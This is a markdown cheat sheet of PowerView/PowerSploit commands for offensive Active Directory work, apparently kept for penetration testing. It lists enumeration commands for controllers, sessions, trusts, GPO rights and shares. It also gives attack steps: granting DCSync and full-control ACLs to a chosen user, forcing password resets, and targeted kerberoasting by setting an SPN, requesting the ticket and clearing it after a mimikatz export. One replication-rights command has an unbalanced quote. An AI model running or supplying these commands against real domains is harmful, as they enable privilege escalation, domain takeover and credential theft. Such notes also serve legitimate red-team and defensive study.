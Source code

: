 ### Source 
https://raw.githubusercontent.com/AdrianVollmer/PowerSploit/master/Recon/PowerView.ps1  

### Get domain controller for current domain
```
Get-NetDomainController
```

### Get remote logged in user
```
Get-NetSession -ComputerName <fqdnRhost>
```

### Get object descriptions
```
Get-NetUser | select-object samaccountname,description | fl | Out-File <file>.txt
```

### Get specific user description
```
Get-NetUser -Username <user> 
```

### Get list of all domain trusts
```
Get-NetDomainTrust
```

### Get details about the current forest
```
Get-NetForest
```

### Find all machines where user has local admin rights
```
Find-LocalAdminAccess –Verbose -Domain <domain> -Computername <rhost>
```

### Show all security identifiers (SID) that can create new GPOs
```
Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=<domainComponent>,DC=<domainComponent>" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl
```

### Get name of SID
```
ConvertFrom-SID <securityIdentifier>
```

### Show all principals that can write to GP-Link attributes
```
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl
```

### Get computeraccounts in specific OU
```
Get-DomainComputer | ? { $_.DistinguishedName -match "<distinguishedName>" -or $_.DistinguishedName -match "OU=<ou>" } | select DnsHostName
```

### Add full permissions over a group to specific user (right = All or ResetPassword or WriteMembers)
```
Add-ObjectAcl -TargetADSprefix '<distinguishedName>' -PrincipalSamAccountName <user> -Rights <right> -Verbose
```

### Add DCSync right to a specific user
```
Add-ObjectAcl -TargetDistinguishedName 'distinguishedName' -PrincipalSamAccountName <user> -Rights DCSync -Verbose
```

### Set a new password for specific user
```
Set-DomainUserPassword -Identity <user> -AccountPassword (ConvertTo-SecureString "<password>" -AsPlainText -Force) -Verbose
```

### Check if user has SPN set (targeted kerberoast)
```
Get-DomainUser -Identity <user> | select serviceprincipalname
Get-DomainComputer -Identity <user> | select serviceprincipalname
```

### Set a new SPN
```
Set-DomainObject -Identity <userOrComputer> -Set @{serviceprincipalname='foo/bar'}
```

### Request ticket from SPN
```
Request-SPNTicket -SPN 'foo/bar'
```

### After export of tickets using mimikatz remove SPN
```
Set-DomainObject -Credential $Cred -Identity <userOrComputer> -Clear serviceprincipalname
```

### List accessible shares (without -ComputerName check all domain joined hosts)
```
Find-DomainShare -CheckShareAccess -ComputerName <rhost>
```

### Search for accounts with DS-Replication-Get-Changes or DS-Replication-Get-Changes-In-Filtered-Set
```
Get-ObjectAcl -DistinguishedName "dc=<domainComponent>,dc=<domainComponent> -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')}
```

### List machine account quota
```
Get-DomainObject -Domain <domain> -Properties ms-ds-machineaccountquota | Select -First 1
```

